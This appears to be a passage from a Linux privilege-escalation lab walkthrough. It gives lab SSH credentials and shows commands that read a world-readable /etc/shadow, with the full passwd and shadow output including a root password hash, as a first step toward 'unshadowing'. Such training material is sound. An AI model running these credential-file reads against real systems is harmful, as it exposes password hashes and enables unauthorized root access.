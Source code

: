 All tools needed to complete this course are in the user folder (/home/user/tools).

Let's first connect to the machine. SSH is open on port 22. Your credentials are:

username: TCM
password: Hacker123

---

If it turns out that you have read access to `/etc/shadow` you can escalate your privileges by "unshadowing" the file.
``` bash
$ ls -la /etc/passwd
-rw-r--r-- 1 root root 950 Jun 17  2020 /etc/passwd
$ ls -ls /etc/shadow
4 -rw-rw-r-- 1 root shadow 809 Jun 17  2020 /etc/shadow
```
Take a look at the content
``` bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/bin/false
TCM:x:1000:1000:user,,,:/home/user:/bin/bash
$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
```